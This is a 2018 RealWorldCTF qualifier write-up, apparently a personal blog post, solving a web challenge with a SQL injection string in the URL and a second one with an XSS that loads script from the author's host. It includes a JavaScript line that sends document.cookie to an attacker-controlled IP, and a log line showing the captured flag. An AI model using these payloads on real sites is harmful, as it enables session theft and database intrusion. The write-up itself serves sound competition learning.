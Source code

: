 ```yaml
---
title: "2018::RealWorldCTF::Qual"
description: ""
publishDate: "2018-07-30"
category: "CTF"
layout: "../../layouts/ArticleLayout.astro"
---
```

RealWorld CTF is very interesting and that is the hardest check-in challenge I've ever saw.

# Advertisement

This challenge gave nothing, but just one line

`This platform is under protection. DO NOT hack it.`

Trying not to hack the web, but I can't find anything.
I did find something interesting, like this one:
<Image src="./console.png" alt="" />

It seems to use WebSocket to get some information then render it on template view. 
So, let's change the hash-like string on url.

When url is `https://realworldctf.com/contest/5`
<Image src="./invalid.png" alt="" />

When url is `https://realworldctf.com/contest/5b5bc8c532a7ca004d2d0f64` (Make the length of hash-like string consist with origin)
<Image src="./database.png" alt="" />

Did you say `Database`?
`https://realworldctf.com/contest/' or '1'='1' --`
<Image src="./flag.png" alt="" />



My teamate kaibro told me that chaitin has sqlchop product.... ohh.... advertisement... got it
It took me half day to find the flag
# Dot Free

There are some js functoin on web page:
```js
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

And I found some keyword like `login passwd`,`login account` in css, so I think that we can try to XSS.

We append string to url, the `xxxxxxxx` part sould replaced by ip in integer form:
`http://13.57.104.34/?{"iframe":{"value":"http:\\\\xxxxxxxx"}}`

And put a javascript on your machine:
`document.location="http:\\\\my.ip.put.here/a?cookie="+document.cookie;`

Then go to apache log to get the  flag:
`13.57.104.34 - - [29/Jul/2018:14:36:15 +0000] "GET /a?cookie=flag=rwctf%7BL00kI5TheFlo9%7D HTTP/1.1" 404 496 `
